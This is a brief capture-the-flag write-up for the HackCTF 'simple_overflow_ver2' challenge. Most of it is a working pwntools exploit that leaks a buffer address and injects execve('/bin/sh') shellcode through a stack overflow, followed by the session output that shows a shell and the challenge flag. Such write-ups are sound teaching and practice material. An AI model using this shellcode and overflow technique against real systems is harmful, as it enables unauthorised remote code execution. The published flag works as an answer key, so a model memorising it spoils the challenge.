 ```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3006)

shell_code = "\x31\xC9\x8D\x41\x0B\x99\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80"

payload = "a"
p.sendlineafter("Data : ", payload)

buf_addr = int(p.recvline()[0:10], 16)
log.info("buf addr : {}".format(hex(buf_addr)))

p.sendlineafter("Again (y/n): ", "Y")

payload = shell_code
payload += "a" * (140 - len(shell_code)) # buffer + sfp + shellcode_length
payload += p32(buf_addr)

p.sendlineafter("Data : ", payload)
p.interactive()
```

```
pocas@pocas-VirtualBox:~/pwn/HackCTF$ python simple_overflow_ver2.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3006: Done
[*] buf addr : 0xffe73ef0
[*] Switching to interactive mode
0xffe73ef0:  1 � \x8d A \x0b\x99 h / s h
Again (y/n): $ cat flag
$ cat  flag
HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}
$  
```

> FLAG : HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}

---

















